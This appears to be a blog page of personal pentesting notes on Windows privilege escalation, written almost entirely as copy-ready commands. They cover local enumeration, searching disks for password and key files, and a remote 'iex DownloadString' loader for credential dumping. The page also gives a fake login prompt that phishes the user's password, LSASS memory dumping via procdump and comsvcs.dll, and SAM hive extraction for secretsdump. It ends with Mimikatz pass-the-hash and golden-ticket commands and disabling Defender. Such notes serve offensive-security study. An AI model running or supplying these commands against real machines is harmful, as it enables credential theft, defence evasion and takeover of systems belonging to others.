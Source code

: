 ```yaml
---
title: "3 - Windows Privesc"
classes: single
header:  
  teaser: /assets/images/posts/adx/adx-teaser3.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Intro to Windows Privesc"
description: "Intro to Windows Privesc"
categories:
  - notes
  - adx
tags:
  - begginer
  - AD
  - Windows 
toc : true
---
```

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="nullified" data-description="Support me on Buy me a coffee!" data-message="" data-color="#FF813F" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

# Privesc

```powershell
> Local Enum

net localgroup Users
net localgroup Administrators
```

```powershell
whoami
whoami /all
net users
net accounts
```

```powershell
dir env: = enum envinroment variables

wmic bios 
wmic volume
```

```powershell
> network 

ipconfig /all
route print
arp -A
netstat -ano
net share
net use
wmic netuse list full
netsh firewall show state
netsh firewall show config
```


```powershell
cmd /c “dir /b /a /s c:\ > C:\Users\dir.txt”

then we can:
type dir.txt | findstr /i passw
type dir.txt | findstr /i ssh
type dir.txt | findstr /i kdbx //keePass Files database
type dir.txt | findstr /i vnc

other files:
unattend.xml or Unattended.xml
sysprep.inf or sysprep.xml
web.config
.bak, .log, .cnf, .conf, .ini, .xml, .txt, .gpg, .pgp, id_rsa, id_dsa, .ovpn, .rdp, vnc, ssh
```

```powershell
> credential manager

cmdkey /list
runas /savecred /user:<user> cmd.exe
```

dump credentials:
```powershell
iex (New-Object System.Net.WebClient).DownloadString("<link>");Enum-Creds or Get-VaultCredential
```

[github dumpCredStore](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1)

[github Get-VaultCredential](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-VaultCredential.ps1)

- Ask for the password for the user logged on the same machine (phishing attempt)

```powershell
$cred =$host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName);$cred.getnetworkcredential().password

$cred =$host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\admin',[Environment]::UserDomainName);$cred.getnetworkcredential().password
```


SessionGopher:
```powershell
find saved sessions of Putty, WinSCP, SuperPutty, FileZilla, RDP 
```


## Common Vulnerabilities
```powershell
- unquoted path
- weak file permissions - accessChk -uwcqv <user> *
→ sc config <service> binPath= <exe file>

- powerup
- jaws
- win suggestion
```


## LSASS
```powershell
Set the key ‘UseLogonCredential’ to 1:
C:\ red add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

PS > C:\rundll32.exe User32.dll,LockWorkStation
```

extract lsass:
```powershell
1. task manager > lsass.exe > create dump file > save the dump
2. procdump: 
  a) -ma = dump all the memory
  b) -r = generate a clone of the process before the dump
  c) .\procdump64 -accepteula -r -ma lsass.exe lsass
3. comsvcs.dll : rundll32 C:\Windows\System32\comsvcs.dll MiniDump <lsass PID> lsass_comsvcs.dmp full
4. Out-Minidump: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1
  a) . .\Out-Minidump.ps1
  b) Get-Process lsass | Out-Minidump
```


## REGISTER

> requires admin priv

extract register (sam, security, system):
```powershell
1. reg save hklm\sam .\sam
2. reg save hklm\security .\security
3. reg save hklm\system .\system
4. python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system local
```


## Mimikatz
```powershell
Privilege::debug # Obtain debugging rights
Token::elevate # Impersonate a token - SYSTEM or DA (Domain Admin)
Sekurlsa::LogonPassword # Extract credentials
Sekurlsa::pth # Perform Pass-the-Hash for command execution
Lsadump::SAM # Decrypt credentials from the registry
Kerberos::ptt # Perform pass-the-ticket by injecting into memory for later use
Kerberos::Golden # Create Golden/Silver tickets
sekurlsa::lsa /patch and /inject
```

example:
```powershell
mimikatz.exe “privilege::debug” “sekurlsa::minidump <dump file> ”sekurlsa::logonpasswords" exit
Invoke-Mimikatz
```
 
Variations:

[Github SafetyKatz](https://github.com/GhostPack/SafetyKatz)

[Github pypyKatz](https://github.com/skelsec/pypykatz)



## AMSI2

AMSITrigger - search for malicious strings

> requires admin priv

disable defender:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
